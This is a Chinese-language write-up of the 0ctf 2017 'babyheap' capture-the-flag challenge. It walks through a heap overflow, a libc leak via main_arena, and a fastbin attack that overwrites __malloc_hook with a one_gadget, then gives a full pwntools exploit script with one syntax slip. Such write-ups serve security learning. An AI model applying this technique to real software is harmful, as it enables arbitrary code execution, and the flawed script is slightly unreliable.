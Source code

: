 题目四个功能 alloc fill free dump

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

    考察点：fastbin attack

    漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

    求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

    两种方法

  第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	
    新建两个块，用chunk0覆盖掉chunk1的头

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/2.png)
	
    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)

    新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小，这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。

    利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了


![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/3.png)
![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/4.png)



    求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

    (靶机偏移是0x3a5678   与我机差值0x9b00)

  第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址


    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

    free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/5.png)

    malloc_hook偏移为0x3a5610


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/6.png)

    可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/7.png)


    shellcode依然由one_gadget取得

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/8.png)


执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             


